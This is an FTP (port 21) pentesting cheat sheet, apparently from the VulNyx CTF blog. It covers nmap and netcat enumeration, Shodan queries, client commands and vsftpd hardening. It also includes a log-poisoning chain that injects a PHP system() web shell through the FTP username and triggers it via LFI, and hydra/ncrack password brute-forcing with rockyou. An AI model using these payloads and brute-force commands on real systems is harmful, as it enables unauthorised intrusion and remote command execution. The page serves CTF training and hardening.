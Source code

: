 ```yaml
---
title: 🟢 21 FTP (TCP)
date: 0021-01-01
layout: post
---
```


### Basic Infomation

[**File Transfer Protocol (FTP)**](https://en.wikipedia.org/wiki/File_Transfer_Protocol) is a standard network protocol used to transfer files from one host to another over a TCP-based network, such as the internet.  
**Default Port: `21`**  
```bash
PORT   STATE SERVICE
21/tcp open  ftp
```
 
When [Nmap](https://nmap.org) does not get the service header, it uses the [IANA](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml) db to determine the name of the service associated with that port.

---

### Enumeration

#### Active

```bash
nc -vn 192.168.1.2 21
timeout 0.1 bash -c "nc -nv 192.168.1.2 21"
nmap -p21 -sS 192.168.1.2
nmap -p21 -sVC 192.168.1.2
nmap -p21 --script="ftp-anon" 192.168.1.2
nmap -p21 --script="ftp-*" 192.168.1.2
```

#### Pasive

##### [Shodan](https://shodan.io)

```bash
port:21
port:21 vsftpd
port:21 proftpd 1.3.5
port:21 os:"Linux"
port:21 os:"Windows"
port:21 country:"US"
port:21 country:"US" os:"Linux"
port:21 hostname:"ftp.domain.tld"
```

---

### Usage & Commands

```bash
# upload file
put cmd.php
# upload all files
mput *
# download
get config.php
# download all files
prompt off
mget *
# binary mode enable
binary
# exit
bye
# rename file
ftp> rename cmd.php
(to-name) cmd.php5
# read files from ftp
ftp> less .htaccess
ftp> more .htaccess
```

#### Connect

```bash
# default port (21)
ftp peter@192.168.1.2
ftp anonymous@192.168.1.2
ncftp -u peter -p 'Passw0rd' 192.168.1.2
lftp -u anonymous, 192.168.1.2
lftp -u peter,'Passw0rd' 192.168.1.2

# ftps (error: Fatal error: Certificate verification: Not trusted)
lftp :~> set ssl:verify-certificate false

# other port
lftp -u peter,'Passw0rd' 192.168.1.2 -p 1234
ncftp -u peter -p 'Passw0rd' -P 1234 192.168.1.2
```

---

### Remote Code Execution (RCE)

#### Log Poisoning

If it detects a **Local File Inclusion (LFI)** and manages to read the `/etc/passwd` file.  

> ##### WARNING
> You should also verify that **port 21 (FTP)** is in the **open** state.
{: .block-warning }

```bash
file.php?file=/etc/passwd
```

If we can read the **FTP log file** located at `/var/log/vsftpd.log`.

```bash
file.php?file=/var/log/vsftpd.log
```

An attacker can poison that log file by **injecting PHP code** into a fake login.

```bash
lftp -u '<?php system($_GET["cmd"]); ?>', 192.168.1.2
```

We now have **Remote Command Execution (RCE)** on the destination server.

```bash
file.php?file=/var/log/vsftpd.log&cmd=id
```

---

### Brute Force

#### Password

If you got a `username` and need the `password` this is the way.

```bash
# default port (21)
ncrack --user peter -P rockyou.txt ftp://192.168.1.2 -f
hydra -t 64 -l peter -P rockyou.txt ftp://192.168.1.2 -f -I     # ftp
hydra -t 64 -l peter -P rockyou.txt ftps://192.168.1.2 -f -I    # ftps
# other port
ncrack --user peter -P rockyou.txt ftp://192.168.1.2:1234 -f
hydra -t 64 -l peter -P rockyou.txt ftp://192.168.1.2:1234 -f -I
```

#### Username

If you have a `password` and need the `username` this is the way.

```bash
# default port (21)
ncrack -U users.dic --pass Passw0rd ftp://192.168.1.2 -f
hydra -t 64 -L /opt/techyou.txt -p Passw0rd ftp://192.168.1.2 -f -I
# other port
ncrack -U users.dic --pass Passw0rd ftp://192.168.1.2:1234 -f
hydra -t 64 -L users.dic -p Passw0rd ftp://192.168.1.2:1234 -f -I
```

---

### Hardening & Configuration

#### Interesting Files

- `/srv/ftp` - Default **path**.
- `/var/log/vsftpd.log` - This file is for **logs**.
- `/etc/vsftpd.conf` - This file is for **configuration**.

#### Install

```bash
# client
apt install -y ftp
apt install -y lftp
# server
apt install -y vsftpd
```

#### Change Port

```bash
# default port
listen_port=21
# other port
listen_port=1234
```

#### User (Guest)

```bash
# enable
anonymous_enable=YES
# disable
anonymous_enable=NO
```

#### Banner Grabbing (Disable)

```bash
# show version
#ftpd_banner=Welcome to blah FTP service.
21/tcp open  ftp     vsftpd 3.0.3
# hidden version
ftpd_banner=Welcome to blah FTP service.
21/tcp open  ftp     vsftpd
```

#### Daemon (Listener)

```bash
# external (0.0.0.0)
listen_address=0.0.0.0
listen_port=21
listen=YES
# internal (localhost)
listen_address=127.0.0.1
listen_port=21
listen=YES
```

#### Service

```bash
service vsftpd start
service vsftpd stop
service vsftpd restart
service vsftpd status

/etc/init.d/vsftpd start
/etc/init.d/vsftpd stop
/etc/init.d/vsftpd restart
/etc/init.d/vsftpd status

systemctl start vsftpd
systemctl stop vsftpd
systemctl restart vsftpd
systemctl status vsftpd
```

---

#### Disclaimer

> ##### WARNING
> All techniques present in this blog are for educational, ethical or CTFs play solving purposes.  
> The [**VulNyx**](https://vulnyx.com) team is not responsible for any misuse or damage caused to third-party systems or infrastructure.
{: .block-warning }

<br><br>
<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="/assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span>© VulNyx 2023-2025</span>
</div>
